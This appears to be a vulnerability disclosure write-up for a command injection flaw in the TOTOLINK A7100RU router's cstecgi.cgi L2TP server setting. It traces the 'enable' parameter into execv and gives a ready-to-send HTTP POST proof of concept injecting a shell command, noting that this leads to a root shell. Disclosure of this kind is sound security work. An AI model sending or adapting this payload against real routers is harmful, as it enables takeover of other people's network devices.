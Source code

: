 # TOTOlink A7100RU Command injection vulnerability

## Overview

- Manufacturer's website information：http://totolink.net/
- Firmware download address ： http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1. Affected version

![image-20220401101510842](img/image-20220401101510842.png)

Figure 1 shows the latest firmware Ba of the router

## 2.Vulnerability details

![image-20220401133911341](img/image-20220401133911341.png)

The program passes the content obtained by the enable parameter to the V2 parameter, and then brings V2 into UCI_ Set_ In str function

![image-20220401101339084](img/image-20220401101339084.png)

Format the A4 matched content into V11 through snprintf function, and then bring V11 into cstesystem function

![image-20220401101404038](img/image-20220401101404038.png)

The function directly brings user input into the execv function, which has a command injection vulnerability

## 3.Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V7.4cu.2313_B20191024
2. Attack with the following  overflow POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/adm/status.asp?timestamp=1647872753309
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setL2tpServerCfg",
"enable":"1$(ls>/tmp/123;)"}
```

The reproduction results are as follows:

![image-20220401130711827](img/image-20220401130711827.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220401131610763](img/image-20220401131610763.png)

